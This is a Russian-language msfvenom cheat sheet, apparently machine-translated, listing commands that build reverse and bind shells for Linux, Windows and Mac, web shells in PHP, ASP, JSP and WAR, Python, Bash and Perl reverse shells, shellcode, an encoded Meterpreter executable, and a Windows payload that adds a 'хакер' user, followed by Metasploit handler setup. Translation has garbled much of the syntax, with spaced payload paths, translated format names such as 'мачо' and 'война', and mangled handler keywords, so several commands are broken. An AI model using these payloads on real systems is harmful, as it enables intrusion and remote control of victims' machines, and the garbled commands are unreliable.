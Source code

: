 # Список полезных нагрузок

```
msfvenom -l
```

# Двоичные файлы

#### Оболочка обратного

```
msfvenom -p linux / x86 / meterpreter / reverse_tcp LHOST = <локальный IP-адрес> LPORT = <локальный порт> -f elf> shell.elf
```


#### Оболочка Linux Bind Meterpreter

```
msfvenom -p linux / x86 / meterpreter / bind_tcp RHOST = <Удаленный IP-адрес> LPORT = <Локальный порт> -f elf> bind.elf
```

#### Linux Bind Shell

```
msfvenom -p generic / shell_bind_tcp RHOST = <Удаленный IP-адрес> LPORT = <Локальный порт> -f elf> term.elf
```

#### Windows Meterpreter Обратный TCP Shell

```
msfvenom -p windows / meterpreter / reverse_tcp LHOST = <Локальный IP-адрес> LPORT = <Локальный порт> -f exe> shell.exe
```

#### Оболочка Windows Reverse TCP

```
msfvenom -p windows / shell / reverse_tcp LHOST = <Локальный IP-адрес> LPORT = <Локальный порт> -f exe> shell.exe
```

#### Windows Encoded Meterpreter Оболочка обратного просмотра Windows

```
msfvenom -p windows / meterpreter / reverse_tcp -e shikata_ga_nai -i 3 -f exe> encoded.exe
```

#### Оборотная оболочка Mac

```
msfvenom -p osx / x86 / shell_reverse_tcp LHOST = <Локальный IP-адрес> LPORT = <Локальный порт> -f мачо> shell.macho
```

#### Mac Bind Shell

```
msfvenom -p osx / x86 / shell_bind_tcp RHOST = <Удаленный IP-адрес> LPORT = <Локальный порт> -f мачо> bind.macho
```

# Веб-полезные нагрузки

#### PHP Meterpreter Обратный TCP

```
msfvenom -p php / meterpreter_reverse_tcp LHOST = <Локальный IP-адрес> LPORT = <Локальный порт> -f raw> shell.php
cat shell.php | pbcopy && echo '<? php' | tr -d '\ n'> shell.php && pbpaste >> shell.php 
```

#### ASP Meterpreter Обратный TCP

```
msfvenom -p windows / meterpreter / reverse_tcp LHOST = <Локальный IP-адрес> LPORT = <Локальный порт> -f asp> shell.asp
```

#### JSP Java Meterpreter Обратный TCP

```
msfvenom -p java / jsp_shell_reverse_tcp LHOST = <Локальный IP-адрес> LPORT = <Локальный порт> -f raw> shell.jsp
```

#### WAR

```
msfvenom -p java / jsp_shell_reverse_tcp LHOST = <Локальный IP-адрес> LPORT = <Локальный порт> -f война> shell.war
```

#### Скриптовые полезные нагрузки Python Reverse Shell

```
msfvenom -p cmd / unix / reverse_python LHOST = <Локальный IP-адрес> LPORT = <Локальный порт> -f raw> shell.py
```

#### Bash Unix Reverse Shell

```
msfvenom -p cmd / unix / reverse_bash LHOST = <Локальный IP-адрес> LPORT = <Локальный порт> -f raw> shell.sh
```

#### Perl Unix Обратная оболочка

```
msfvenom -p cmd / unix / reverse_perl LHOST = <Локальный IP-адрес> LPORT = <Локальный порт> -f raw> shell.pl
```

# Shellcode


#### Windows Meterpreter Обратный шелл-код TCP

```
msfvenom -p windows / meterpreter / reverse_tcp LHOST = <Локальный IP-адрес> LPORT = <Локальный порт> -f <язык>
```

#### Linux Meterpreter Обратный шелл-код TCP

```
msfvenom -p linux / x86 / meterpreter / reverse_tcp LHOST = <Локальный IP-адрес> LPORT = <Локальный порт> -f <язык>
```

#### Mac Shell Обратный TCP Shellcode 

```
msfvenom -p osx / x86 / shell_reverse_tcp LHOST = <Локальный IP-адрес> LPORT = <Локальный порт> -f <язык>
```

#### Создать пользователя

```
msfvenom -p windows / adduser USER = хакер PASS = Hacker123 $ -f exe> adduser.exe
```

# Metasploit Handler

```
использование эксплуатируют / мульти / обработчик
набор ПОЛЕЗНОЙ <имя Payload>
Set RHOST <Remote IP>
набор LHOST <Local IP>
набор LPORT <локальный порт>
Run
```
